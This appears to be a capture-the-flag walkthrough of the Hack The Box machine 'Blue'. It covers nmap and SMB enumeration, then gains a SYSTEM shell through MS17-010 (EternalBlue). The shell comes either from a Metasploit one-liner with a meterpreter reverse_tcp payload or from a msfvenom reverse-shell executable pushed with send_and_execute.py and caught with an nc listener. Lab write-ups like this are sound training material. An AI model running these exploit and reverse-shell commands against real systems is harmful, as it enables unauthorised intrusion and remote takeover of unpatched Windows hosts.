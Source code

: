 # Blue

## Machine Info

![Blue](./Blue.assets/Blue.png)

## Recon

### port

- nmap
  - smb
  - rpc

```console
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 SP1 (96%), Microsoft Windows Server 2008 SP2 (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (96%), Microsoft Windows 7 SP1 (96%), Microsoft Windows 8.1 Update 1 (96%), Microsoft Windows Vista or Windows 7 SP1 (96%), Microsoft Windows Vista SP1 - SP2, Windows Server 2008 SP2, or Windows 7 (96%), Microsoft Windows Vista SP1 (96%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

```console
Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
```

### smb

Enumerate samba service without authenticated credentials:

```console
└─╼$ smbmap -H 10.10.10.40 -u qwe -p qwe

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.10.10.40:445 Name: 10.10.10.40               Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Share                                                   READ ONLY
        Users                                                   READ ONLY

└─╼$ smbclient //10.10.10.40/Users -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Jul 21 02:56:23 2017
  ..                                 DR        0  Fri Jul 21 02:56:23 2017
  Default                           DHR        0  Tue Jul 14 03:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
  Public                             DR        0  Tue Apr 12 03:51:29 2011

                4692735 blocks of size 4096. 644656 blocks available
smb: \> get desktop.ini
getting file \desktop.ini of size 174 as desktop.ini (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit

└─╼$ cat desktop.ini

[.ShellClassInfo]
LocalizedResourceName=@%SystemRoot%\system32\shell32.dll,-21813

└─╼$ smbclient //10.10.10.40/Share -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jul 14 09:48:44 2017
  ..                                  D        0  Fri Jul 14 09:48:44 2017

                4692735 blocks of size 4096. 644656 blocks available
smb: \> exit
```

## Foothold

### CVE--2017-0143

#### metasploit

```console
└─╼$ msfconsole -q -x "use windows/smb/ms17_010_eternalblue; set payload windows/x64/meterpreter/reverse_tcp; set rhosts 10.10.10.40; set lhost 10.10.14.9; set lport 1234; exploit"
```

![image-20240211000302210](./Blue.assets/image-20240211000302210.png)

![image-20240211000308721](./Blue.assets/image-20240211000308721.png)

![image-20240211000316069](./Blue.assets/image-20240211000316069.png)

Find the flag:

![image-20240211000324990](./Blue.assets/image-20240211000324990.png)

#### python script

The first machine Legacy, I mention that the python script would not be used inside 2024 environment. But I forget that python virtual machine might provide a pure environment for impacket and other tools:

```bash
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
virtualenv impacket-venv -p $(which python2)
source impacket-venv/bin/activate
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python get-pip.py
pip install -r requirements.txt
```

**Exploit**:

- [fortra/impacket](https://github.com/fortra/impacket)
- [helviojunior/MS17-010: MS17-010](https://github.com/helviojunior/MS17-010)

```console
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f exe -o revshell.exe
$ python send_and_execute.py 10.10.10.40 revshell.exe
$ sudo rlwrap nc -lvnp 4444
```

## Exploit Chain

port scan -> CVE-2017-0143 -> eternal blue -> system shell
